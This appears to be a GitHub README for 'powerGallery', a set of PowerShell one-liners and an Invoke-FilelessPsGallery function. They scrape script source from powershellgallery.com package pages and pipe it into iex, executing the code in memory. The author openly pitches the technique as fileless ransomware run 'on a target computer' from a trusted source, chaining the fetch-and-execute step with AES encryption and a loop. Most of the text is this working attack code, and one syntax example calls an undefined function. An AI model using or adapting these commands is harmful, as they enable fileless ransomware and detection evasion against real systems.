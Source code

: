 # powerGallery

This one liner will load the neccessary files to encrypt a system straight from the trusted powershellgallery.com website.
Used in conjunction with a simple for loop its is now fileless ransomware hosted and executed from your platform

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex
```

Next its as simple as running the commands stored in that module agaisnt the system
In this instance we can encrypt a string, but why stop there? 

```powershell
$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

Combining them into a simple one liner. Together with yet another simple functionality the `for loop` you should be able to see the danger
We could run fileless ransomware on a target computer all from a trusted source

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex;$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

# Get Current Version

```powershell
# Define the regex pattern to extract content from <h2> within the specified <article> class
$pattern = '<article class="col-sm-12 col-md-8 package-details-main special-margin-left">.*?<h2>(.*?)</h2>'

# Perform the regex match
$match = [regex]::Match($html, $pattern, [System.Text.RegularExpressions.RegexOptions]::Singleline)

# Extract the value
if ($match.Success) {
    $h2Content = $match.Groups[1].Value.Trim()
    # Output the content of the <h2> tag
    $h2Content
} else {
    "No <h2> tag found within the specified <article> class."
}
```


You can use this function to grab the links of all the .ps1 files in a module from the powershell gallery website

```powershell
function Invoke-FilelessPsGallery {
    param ([string]$module)
    try {

        $mod = "https://www.powershellgallery.com/packages/$module"
        write-host "--> $mod"
        
        $content = Invoke-RestMethod -Uri $mod
        $regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
        $matches = [regex]::Matches($content, $regex)
        $baseURL = "https://www.powershellgallery.com"
        $ps1Links = @()
        foreach ($match in $matches) {
            $relativeLink = $match.Groups[1].Value
            $fullLink = $baseURL + $relativeLink
            $ps1Links += $fullLink
        }
        #return $ps1Links
        foreach ($url in $ps1Links){([regex]::Matches((irm "$url"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
    }
    catch {
        Write-Error "An error occurred: $_"
    }
}
```

Syntax:

```powershell
$urls = get-Ps1Urls -Url "https://www.powershellgallery.com/packages/PSAES/1.0.0.5"
```


```powershell
$urls = @("https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1")

foreach ($url in $urls){([regex]::Matches((irm "$url"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
```











